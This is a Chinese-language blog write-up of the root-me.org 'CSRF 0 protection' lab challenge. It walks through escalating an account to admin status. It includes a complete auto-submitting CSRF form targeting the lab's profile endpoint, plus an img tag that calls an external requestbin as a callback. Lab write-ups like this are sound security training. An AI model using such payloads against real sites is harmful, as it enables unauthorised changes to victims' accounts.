 ```yaml
---
title: root-me.org Client CSRF 0 protection
key: 20190413
tags: ctf infosec root-me.org
---
```


玩root-me.org，这条卡壳了，网上搜了半天都没有正确的解法，中文的那几个都是乱翻译一个德语的教程，根本用不了，估计自己都没试过。

地址： https://www.root-me.org/en/Challenges/Web-Client/CSRF-0-protection 

lab地址： http://challenge01.root-me.org/web-client/ch22/ 

![](https://img3.doubanio.com/view/note/l/public/p59863980.webp)

<!--more-->

进去之后是这个界面，先随便register，再login

![](https://img3.doubanio.com/view/note/l/public/p59863990.webp)

出现profile界面，status是灰色的，这是只有管理员才有的权限，这个lab解谜的关键就是bypass这个地方

![](https://img3.doubanio.com/view/note/l/public/p59864042.webp)


这时候想到直接在chrome里点f12修改elements，把 `<input type="checkbox" name="status" disabled>` 改成 `<input type="checkbox" name="status" value="on">` ，想当然了

![](https://img1.doubanio.com/view/note/l/public/p59864058.webp)

虽然可以打勾了，点submit还是提示不行

![](https://img3.doubanio.com/view/note/l/public/p59864076.webp)


于是就和标题说的一样，得尝试CSRF攻击了，刚好目录里有个contact

先去网上找个免费的**requestbin**，我用了这个 https://requestbin.fullcontact.com/ 

新建了一个requestbin，打算放到 `<img src = " ">` 里面让服务器执行

基本的思路就是构建让admin打开收件箱之后到http://challenge01.root-me.org/web-client/ch22/?action=profile 这个界面，然后自动执行对攻击者账号的validation的POST界面。

查看/?action=profile界面的源代码，抄一下

![](https://img3.doubanio.com/view/note/l/public/p59864214.webp)

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>CSRF</title>
</head>
<body>
    <form name="csrf" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="username" value="test" />
    <input type="hidden" name="status" value="on" />
    <button type="submit">Submit</button>
    </form>
    <script>document.csrf.submit()</script>
    <img src=" https://requestbin.fullcontact.com/【生成地址不放了】?=">
</body>
</html>
```

img里填requestbin的地址

![](https://img3.doubanio.com/view/note/l/public/p59864531.webp)

到contact里面把这段复制到comment里，由于lab是模拟一个对CSRF没有防御的网站，所以一旦发送后服务器就会马上模拟管理员打开信件并自动执行代码

![](https://img3.doubanio.com/view/note/l/public/p59864490.webp)

等了几十秒，查看requestbin发现服务器已经执行并访问了这个伪造的img地址

![](https://img1.doubanio.com/view/note/l/public/p59864509.webp)

点进private，成功拿到flag
